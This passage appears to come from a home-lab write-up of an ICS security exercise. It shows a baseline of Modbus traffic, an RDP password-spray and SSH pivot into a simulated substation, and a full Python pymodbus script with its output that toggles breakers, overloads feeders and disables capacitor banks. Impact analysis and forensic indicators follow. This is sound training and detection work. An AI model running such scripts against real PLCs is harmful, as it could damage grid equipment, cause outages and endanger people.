- Modbus Function Code 4 (Read Input Registers) - voltage and current readings
- Modbus Function Code 1 (Read Coils) - breaker status queries
- Modbus Function Code 5 (Write Single Coil) - Feeder 2 open/close operations

**Normal Traffic Characteristics:**
- 4-second delays between write operations (deliberate, operator-paced)
- Read-before-write pattern (legitimate operational sequence)
- Limited write operations (only 2 writes to coil 1)
- Predictable addresses (only Feeder 2 breaker manipulated)

**Wireshark capture showing baseline Modbus traffic**



**Files:**
- `normal_modbus_traffic.pcapng` - Packet capture for analysis
- `capturing_normal_modbus_traffic.mp4` - Screen recording of capture process

---

### Baseline Established

The Modbus simulation is now operational and baseline traffic captured. This establishes:

1. **Normal operational behavior** - Legitimate HMI script demonstrates proper read-before-write sequences with appropriate delays
2. **Baseline traffic pattern** - PCAP shows expected Modbus function codes and timing
3. **Attack comparison reference** - Provides clear baseline for identifying malicious activity

**Next:** Develop malicious coil manipulation attack script and compare traffic patterns


## Attack Scenario

### **1. Initial Compromise (IT Side) - Kali → Windows 10**
video in screen recordings folder

#### Nmap Scan for RDP



#### Simplified Hydra Password Spraying Attack

(I just included the password in the wordlist)



#### Use rdesktop to Connect to target-windows



### **2. Pivot from IT to OT - Windows 10 → HMI via SSH**
video in screen recordings folder

#### Find SSH in Command Line History



#### SSH operator2@192.168.20.10



**NOTE:** I used a password to login, but imagine there was an RSA key pair setup on each machine already.

### **3. Malicious Modbus Command Injection - HMI → PLC**

Video in screen recordings folder

#### Mock Modbus Server Running on plc-server



#### Write and Run coil_manipulation_attack.py from Attacker's SSH Session

```python
#!/usr/bin/env python3
"""
Distribution Substation Attack - Unauthorized Coil Manipulation

Attack Objectives:
1. Rapidly toggle emergency main breaker (coil 99) to cause grid instability
2. Force all distribution feeders CLOSED simultaneously (overload condition)
3. Disable capacitor banks during high load (power quality attack)
4. Rapid successive writes with no operational delays (automation signature)
"""
from pymodbus.client import ModbusTcpClient
import time
import sys

PLC_IP = "192.168.20.20"
PLC_PORT = 502

def main():
  print("=" * 70)
  print("  [!] MALICIOUS MODBUS ATTACK - SUBSTATION DISRUPTION")
  print("=" * 70)
  print(f"[!] ATTACK: Targeting PLC at {PLC_IP}:{PLC_PORT}")

  client = ModbusTcpClient(PLC_IP, port=PLC_PORT)

  if not client.connect():
	  print("[!] Failed to connect to PLC")
	  sys.exit(1)

  print("[!] ATTACK: Connected to substation controller")
  print()

  # ATTACK PHASE 1: Emergency Main Breaker Rapid Toggling
  # This creates grid instability and potential equipment damage
  print("[!] ATTACK PHASE 1: Rapidly toggling emergency main breaker (coil 99)...")
  print("[!] Impact: Grid instability, potential cascade failures")
  for i in range(10):
	  # Trip main breaker
	  result = client.write_coil(address=99, value=True, slave=1)
	  if not result.isError():
		  print(f"[!] Iteration {i+1}: Emergency main breaker TRIPPED")

	  time.sleep(0.3)  # Minimal delay (contrast with 4-second baseline)

	  # Reset main breaker
	  result = client.write_coil(address=99, value=False, slave=1)
	  if not result.isError():
		  print(f"[!] Iteration {i+1}: Emergency main breaker RESET")

	  time.sleep(0.3)

  print()

  # ATTACK PHASE 2: Simultaneous Feeder Energization (Overload Attack)
  # Closing all feeders simultaneously creates dangerous overload condition
  print("[!] ATTACK PHASE 2: Forcing all distribution feeders CLOSED simultaneously...")
  print("[!] Impact: Transformer overload, potential equipment damage")
  result = client.write_coils(address=0, values=[True]*10, slave=1)
  if not result.isError():
	  print("[!] All 10 distribution feeder breakers forced CLOSED")
	  print("[!] WARNING: Simultaneous energization - overload condition created")
  else:
	  print(f"[!] Error during mass write: {result}")

  time.sleep(1)

  # ATTACK PHASE 3: Capacitor Bank Disruption
  # Disabling capacitor banks during high load degrades power quality
  print()
  print("[!] ATTACK PHASE 3: Disabling capacitor banks during high load...")
  print("[!] Impact: Power factor degradation, voltage instability")
  result = client.write_coils(address=10, values=[False]*5, slave=1)
  if not result.isError():
	  print("[!] All 5 capacitor banks forced OFFLINE")
	  print("[!] Power quality management systems disabled")
  else:
	  print(f"[!] Error during capacitor write: {result}")

  time.sleep(1)

  # ATTACK PHASE 4: Rapid Disconnect Switch Manipulation
  # Rapidly cycling disconnect switches under load creates arcing/damage
  print()
  print("[!] ATTACK PHASE 4: Rapidly cycling disconnect switches...")
  print("[!] Impact: Equipment damage from switching under load")
  for i in range(5):
	  result = client.write_coils(address=20, values=[True]*10, slave=1)
	  print(f"[!] Iteration {i+1}: All disconnect switches CLOSED")
	  time.sleep(0.2)

	  result = client.write_coils(address=20, values=[False]*10, slave=1)
	  print(f"[!] Iteration {i+1}: All disconnect switches OPENED")
	  time.sleep(0.2)

  # ATTACK COMPLETE: Verify final malicious state
  print()
  print("[!] ATTACK COMPLETE - Verifying final system state...")

  result = client.read_coils(address=0, count=10, slave=1)
  if not result.isError():
	  breaker_states = result.bits[:10]
	  print("[!] Final feeder breaker positions:")
	  for i, state in enumerate(breaker_states):
		  status = "CLOSED (ENERGIZED)" if state else "OPEN"
		  print(f"    Feeder {i+1}: {status}")

  result = client.read_coils(address=99, count=1, slave=1)
  if not result.isError():
	  emergency_state = result.bits[0]
	  status = "TRIPPED" if emergency_state else "NORMAL"
	  print(f"[!] Emergency main breaker: {status}")

  client.close()
  print()
  print("=" * 70)
  print("  [!] ATTACK COMPLETE - SUBSTATION OPERATIONS DISRUPTED")
  print("=" * 70)
  print()
  print("[*] Attack Summary:")
  print("    - Emergency breaker toggled 10 times (grid instability)")
  print("    - All feeders energized simultaneously (overload)")
  print("    - Capacitor banks disabled (power quality degradation)")
  print("    - Disconnect switches rapidly cycled (equipment damage)")

if __name__ == "__main__":
  main()
```

#### Output
```
======================================================================
  [!] MALICIOUS MODBUS ATTACK - SUBSTATION DISRUPTION
======================================================================
[!] ATTACK: Targeting PLC at 192.168.20.20:502
[!] ATTACK: Connected to substation controller

[!] ATTACK PHASE 1: Rapidly toggling emergency main breaker (coil 50)...
[!] Impact: Grid instability, potential cascade failures
[!] Iteration 1: Emergency main breaker TRIPPED
[!] Iteration 1: Emergency main breaker RESET
[!] Iteration 2: Emergency main breaker TRIPPED
[!] Iteration 2: Emergency main breaker RESET
[!] Iteration 3: Emergency main breaker TRIPPED
[!] Iteration 3: Emergency main breaker RESET
[!] Iteration 4: Emergency main breaker TRIPPED
[!] Iteration 4: Emergency main breaker RESET
[!] Iteration 5: Emergency main breaker TRIPPED
[!] Iteration 5: Emergency main breaker RESET
[!] Iteration 6: Emergency main breaker TRIPPED
[!] Iteration 6: Emergency main breaker RESET
[!] Iteration 7: Emergency main breaker TRIPPED
[!] Iteration 7: Emergency main breaker RESET
[!] Iteration 8: Emergency main breaker TRIPPED
[!] Iteration 8: Emergency main breaker RESET
[!] Iteration 9: Emergency main breaker TRIPPED
[!] Iteration 9: Emergency main breaker RESET
[!] Iteration 10: Emergency main breaker TRIPPED
[!] Iteration 10: Emergency main breaker RESET

[!] ATTACK PHASE 2: Forcing all distribution feeders CLOSED simultaneously...
[!] Impact: Transformer overload, potential equipment damage
[!] All 10 distribution feeder breakers forced CLOSED
[!] WARNING: Simultaneous energization - overload condition created

[!] ATTACK PHASE 3: Disabling capacitor banks during high load...
[!] Impact: Power factor degradation, voltage instability
[!] All 5 capacitor banks forced OFFLINE
[!] Power quality management systems disabled

[!] ATTACK PHASE 4: Rapidly cycling disconnect switches...
[!] Impact: Equipment damage from switching under load
[!] Iteration 1: All disconnect switches CLOSED
[!] Iteration 1: All disconnect switches OPENED
[!] Iteration 2: All disconnect switches CLOSED
[!] Iteration 2: All disconnect switches OPENED
[!] Iteration 3: All disconnect switches CLOSED
[!] Iteration 3: All disconnect switches OPENED
[!] Iteration 4: All disconnect switches CLOSED
[!] Iteration 4: All disconnect switches OPENED
[!] Iteration 5: All disconnect switches CLOSED
[!] Iteration 5: All disconnect switches OPENED

[!] ATTACK COMPLETE - Verifying final system state...
[!] Final feeder breaker positions:
    Feeder 1: CLOSED (ENERGIZED)
    Feeder 2: CLOSED (ENERGIZED)
    Feeder 3: CLOSED (ENERGIZED)
    Feeder 4: CLOSED (ENERGIZED)
    Feeder 5: CLOSED (ENERGIZED)
    Feeder 6: CLOSED (ENERGIZED)
    Feeder 7: CLOSED (ENERGIZED)
    Feeder 8: CLOSED (ENERGIZED)
    Feeder 9: CLOSED (ENERGIZED)
    Feeder 10: CLOSED (ENERGIZED)
[!] Emergency main breaker: NORMAL

======================================================================
  [!] ATTACK COMPLETE - SUBSTATION OPERATIONS DISRUPTED
======================================================================

[*] Attack Summary:
    - Emergency breaker toggled 10 times (grid instability)
    - All feeders energized simultaneously (overload)
    - Capacitor banks disabled (power quality degradation)
    - Disconnect switches rapidly cycled (equipment damage)
```

#### Network Traffic Differences from Baseline:
- NO read-before-write operations
- Minimal delays between operations (0.2-0.3s vs 4s baseline)
- Mass write operations (write_coils vs write_coil)
- Critical safety system manipulation (coil 99)
- Addresses never accessed in normal operations

---

### Before/After Comparison: Attack Impact Analysis

#### System State Comparison

| Equipment                  | Baseline (Normal Operations) | Post-Attack State  | Operational Status |
| -------------------------- | ---------------------------- | ------------------ | ------------------ |
| **Feeder 1**               | OPEN (de-energized)          | CLOSED (energized) | Abnormal           |
| **Feeder 2**               | OPEN (de-energized)          | CLOSED (energized) | Abnormal           |
| **Feeder 3-10**            | OPEN (de-energized)          | CLOSED (energized) | Abnormal           |
| **Capacitor Banks (5x)**   | ONLINE (normal)              | OFFLINE (disabled) | Critical failure   |
| **Emergency Main Breaker** | NORMAL                       | Toggled 10x        | Grid instability   |
| **Disconnect Switches**    | Static                       | Rapidly cycled 5x  | Equipment damage   |

**Baseline Summary:** Only Feeder 1 briefly energized during controlled test, then returned to OPEN state. All other feeders remained safely de-energized.

**Post-Attack Summary:** ALL 10 feeders simultaneously energized in dangerous overload condition, capacitor banks disabled, emergency systems manipulated.

---

### Real-World Impact 

#### Phase 1: Emergency Main Breaker Rapid Toggling

**Technical Impact:**
- Emergency main breaker toggled 10 times in 6 seconds (0.3s intervals)
- Normal operation: breaker switching occurs once per hours/days during planned maintenance
- Attack creates rapid ON/OFF cycling under load

**Real-World Consequences:**
1. **Grid Instability**
   - Rapid connect/disconnect events cause voltage and frequency transients across the distribution grid
   - Neighboring substations experience ripple effects as load suddenly appears and disappears
   - Protective relays in adjacent equipment may trip unnecessarily (cascade failure)

2. **Equipment Damage**
   - Circuit breakers rated for limited switching cycles (typically 10,000-20,000 operations lifetime)
   - Rapid cycling under load causes excessive contact wear and arcing
   - Reduces breaker lifespan, increases failure probability during legitimate emergency

3. **Customer Impact**
   - Brief voltage sags/swells affect sensitive equipment (data centers, hospitals, manufacturing)
   - Possible equipment damage to end-user systems

---

#### Phase 2: Simultaneous Feeder Energization (Overload Attack)

**Technical Impact:**
- All 10 distribution feeders forced CLOSED simultaneously
- Normal operation: feeders energized sequentially based on load demand
- Creates instantaneous massive load increase on distribution transformer

**Real-World Consequences:**

**Why This Is Extremely Dangerous:**

1. **Transformer Overload**
   - Distribution transformer rated for specific MVA capacity (e.g., 20 MVA for 69kV/13.8kV substation)
   - Each feeder carries 2-5 MW typical load
   - Simultaneous energization: 10 feeders × 3 MW average = 30 MW demand spike
   - **150% overload condition** exceeds transformer thermal limits

2. **Thermal Damage**
   - Transformer oil temperature rapidly increases beyond safe operating range (85°C typical limit)
   - Insulation breakdown accelerates with excessive heat
   - Potential transformer failure requiring weeks/months for replacement
   - Cost: $500,000 - $2,000,000 per large distribution transformer

3. **Protective Relay Misoperation**
   - Sudden inrush current appears identical to short-circuit fault
   - Upstream protective devices may trip to isolate "fault"
   - Results in **regional blackout** affecting thousands of customers
   - Restoration time: 4-12 hours depending on cause identification

4. **Voltage Collapse**
   - Excessive load causes bus voltage to drop below acceptable limits (typically 0.95 per unit)
   - Low voltage cascades to customer feeders
   - Sensitive equipment (computers, medical devices) fails or shuts down
   - Voltage collapse can propagate to adjacent substations

**Historical Precedent:**
Similar overload conditions contributed to the 2003 Northeast Blackout, where cascading failures affected 50 million people across 8 U.S. states and Canada.

---

#### Phase 3: Capacitor Bank Disruption

**Technical Impact:**
- All 5 capacitor banks forced OFFLINE
- Normal operation: banks switched online/offline to maintain power factor 0.95-1.0
- Removes 15-30 MVAR reactive power compensation

**Real-World Consequences:**
1. **Power Factor Degradation**
   - Without capacitor compensation, power factor drops to 0.7-0.8 (from 0.95 baseline)
   - Utility penalizes customers for poor power factor (demand charges increase 20-40%)
   - Increased reactive power flow causes I²R losses in transmission lines

2. **Voltage Instability**
   - Capacitor banks provide voltage support during high load conditions
   - Loss of reactive power support causes voltage droop (5-10% reduction)
   - May trigger protective undervoltage relays, causing additional outages

3. **Equipment Stress**
   - Motors and transformers draw excessive reactive current to compensate
   - Increased heating in distribution equipment accelerates aging
   - Premature equipment failure (reduced lifespan by 30-50%)

---

#### Phase 4: Disconnect Switch Rapid Cycling

**Technical Impact:**
- Disconnect switches cycled 5 times in 1 second (0.2s intervals)
- Normal operation: switches operated only during de-energized maintenance (no load)
- Attack cycles switches under full load conditions

**Real-World Consequences:**
1. **Arc Flash Hazard**
   - Disconnect switches NOT designed for load-break operation (unlike circuit breakers)
   - Opening switch under load creates dangerous electrical arc (10,000-35,000°F)
   - Arc flash can cause catastrophic equipment damage, fires, personnel injury/death

2. **Equipment Destruction**
   - Switch contacts not rated for arc interruption
   - Molten metal spray damages adjacent equipment
   - Insulation failure from arc energy
   - Complete switch replacement required ($50,000-$100,000 per unit)

3. **Safety System Compromise**
   - Damaged disconnect switches cannot be used for safe maintenance isolation
   - Maintenance crews unable to establish safe working zones
   - Substation may require extended outage for equipment replacement

---

### Cumulative Attack Impact

**Immediate Effects:**
- Regional blackout
- Transformer thermal runaway (if not tripped by protection)
- Equipment damage requiring emergency response

**Short-Term Effects:**
- Emergency load shedding to prevent further cascading failures
- Damage assessment and temporary repairs
- Rerouting power through alternate substations (reduced reliability)

**Long-Term Effects:**
- Transformer replacement
- Disconnect switch repairs/replacements
- Reduced grid reliability during recovery period
- Millions in equipment damage, lost productivity, emergency response

---

### Forensic Evidence Summary

**Attack Indicators:**
1. **Timing Analysis:**
   - Baseline: 4-second delays between operations (human-paced)
   - Attack: 0.2-0.3 second delays (scripted automation)

2. **Operation Patterns:**
   - Baseline: Read-before-write (verify then act)
   - Attack: Write-only commands (no verification)

3. **Address Ranges:**
   - Baseline: Coils 0-4 (normal operational range)
   - Attack: Coils 0-29, 50, 99 (including safety systems, maintenance equipment)

4. **Function Codes:**
   - Baseline: Function Code 5 (Write Single Coil) - 2 operations
   - Attack: Function Code 15 (Write Multiple Coils) - 20+ operations

This evidence clearly distinguishes malicious activity from legitimate operational commands, enabling rapid incident detection and response.